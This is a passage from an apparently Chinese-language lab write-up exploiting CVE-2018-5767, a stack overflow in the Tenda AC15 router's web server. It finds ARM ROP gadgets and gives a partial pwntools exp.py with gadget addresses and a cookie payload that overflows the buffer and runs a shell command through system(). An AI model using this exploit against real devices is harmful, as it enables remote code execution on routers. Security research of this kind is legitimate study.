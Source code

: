mov r0, sp; blx r3可以用

再找一条把system赋值到r3中的

![%E6%A0%88%E6%BA%A2%E5%87%BAcve-2018-5767(AC15)/Untitled%2016.png](%E6%A0%88%E6%BA%A2%E5%87%BAcve-2018-5767(AC15)/Untitled%2016.png)

## 4.构造rop链

![%E6%A0%88%E6%BA%A2%E5%87%BAcve-2018-5767(AC15)/Untitled%2017.png](%E6%A0%88%E6%BA%A2%E5%87%BAcve-2018-5767(AC15)/Untitled%2017.png)

gadget运行原理可以看之前的文章

# 4.exp.py

不过由于是qemu-user模式可能无法正常成功创建aaaa文件可以用这个exp.py验证输出hello world!!!!

```python
# python2
import requests
from pwn import *

context.binary = "squashfs-root/bin/httpd"
# context.log_level = "debug"
libc = ELF("squashfs-root/lib/libc.so.0")
puts_offset = libc.symbols["puts"]

libc_base_addr = 0xf65e5000
pop_r3_pc = libc_base_addr + 0x00018298
mov_r0_sp_blx_r3 = libc_base_addr + 0x00040cb8
puts_addr = libc_base_addr + puts_offset

ip  = "192.168.111.128"
url = "http://%s/goform/execCommand"%ip
# cookie = {"Cookir":"password="+cyclic(444) + ".gif" 
# + flat(libc_base_addr+pop_r3_pc, libc_base_addr+system_offset, libc_base_addr+mov_r0_sp_blx_r3)+ "touch ./abcd" }
```